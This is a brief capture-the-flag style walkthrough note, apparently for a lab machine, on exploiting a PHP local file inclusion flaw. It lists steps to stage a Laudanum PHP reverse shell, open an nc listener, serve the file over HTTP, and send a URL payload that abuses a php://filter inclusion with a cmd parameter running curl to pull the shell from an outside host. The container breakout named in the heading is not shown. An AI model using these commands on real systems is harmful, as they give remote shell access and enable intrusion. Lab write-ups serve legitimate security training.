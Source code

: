 # 1. Exploit a PHP application via LFI and break out of a docker container

## Here the server accept the php code LFI
- __Here we are upload a shell.php to the websever__
__`/usr/share/laudanum/php/php-reverse-shell.php` and rename it as `shell.php`__
- __`mv /usr/share/laudanum/php/php-reverse-shell.php shell.php`__
  - > __Change the ip and port__
    > __`nc -lvnp 1234`__
- __`python3 -m http.server 8080`__

```url
http://10.10.96.138/?view=php://filter/resource=./dog/../../../../../../../ect/passwd=&cmd=curl -o shell.php 10.10.44.229:8000/shell.php
```
